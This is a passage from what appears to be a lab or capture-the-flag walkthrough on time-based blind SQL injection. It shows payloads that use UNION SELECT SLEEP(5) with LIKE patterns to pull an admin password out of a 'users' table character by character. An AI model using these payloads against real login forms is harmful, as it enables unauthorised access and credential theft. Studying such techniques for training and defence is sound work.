 ![find full database name](images/31-found-full-db-name.png)<br/>
I've found database name `sqli_four`. This is same as previous boolean based method.<br/>

    admin123' UNION SELECT SLEEP(5), 2 from users where username='admin' and password like '4%
![pwd char](images/32-pwd-char.png)<br/>
As you can see here password character start with `4`<br/>

    admin123' UNION SELECT SLEEP(5), 2 from users where username='admin' and password like '4961%